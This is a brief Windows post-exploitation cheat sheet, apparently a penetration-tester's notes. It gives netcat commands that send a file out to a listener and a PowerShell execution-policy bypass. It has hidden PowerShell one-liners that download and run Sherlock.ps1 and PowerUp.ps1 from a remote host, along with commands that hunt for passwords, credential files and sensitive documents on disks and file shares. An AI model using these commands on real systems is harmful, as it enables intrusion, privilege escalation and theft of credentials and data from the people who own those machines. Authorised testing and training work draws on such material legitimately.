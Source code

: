 * Powershell

```
#run receiver on listener

nc -lvnp 443 > output.xxx

#send file
Get-Content file.xxx | .\nc.exe IP PORT

#bypass execution policy  if got admin
Set-ExecutionPolicy Unrestricted
```

```powershell
# For older Systems use Sherlock
powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"

powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1'); Invoke-AllChecks"

```

## Find Stuff

Look for passwords

`dir /s *pass* == *.config`

If found then search in the directory for strings within files

`findstr /si password *.xml *.ini *.txt`


* Primary option: PowerView.ps1

```cmd
dir /a:h C:\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

```powershell

. .\PowerView.ps1

Find-InterestingFile -Path \\FileServer1.domain.com\S$\shares\

```

* cmd: `dir /s /b c:\filename` find filename in c: drive recursively
* ps: `Get-ChildItem -Path c:\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`

In the users folder look for more extensions

```powershell

Get-ChildItem -Path .\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

